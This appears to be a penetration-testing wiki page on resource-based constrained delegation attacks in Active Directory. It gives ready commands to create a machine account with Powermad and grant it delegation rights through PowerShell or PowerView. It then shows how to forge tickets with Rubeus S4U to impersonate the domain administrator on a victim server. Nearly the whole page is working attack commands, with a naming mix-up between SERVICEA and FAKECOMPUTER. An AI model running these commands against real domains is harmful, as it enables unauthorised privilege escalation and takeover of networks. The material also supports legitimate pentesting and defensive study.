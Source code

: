 To check the _**MachineAccountQuota**_ of the domain you can use:

```bash
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
```
## Attack

### Creating a Computer Object

You can create a computer object inside the domain using **[[https://github.com/Kevin-Robertson/Powermad|powermad]]:**

```bash
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
```
### Configuring Resource-based Constrained Delegation

**Using activedirectory PowerShell module**

```bash
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
```
**Using powerview**

```bash
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
```
### Performing a complete S4U attack (Windows/Rubeus)

First of all, we created the new Computer object with the password `123456`, so we need the hash of that password:

```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
```
This will print the RC4 and AES hashes for that account.\
Now, the attack can be performed:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
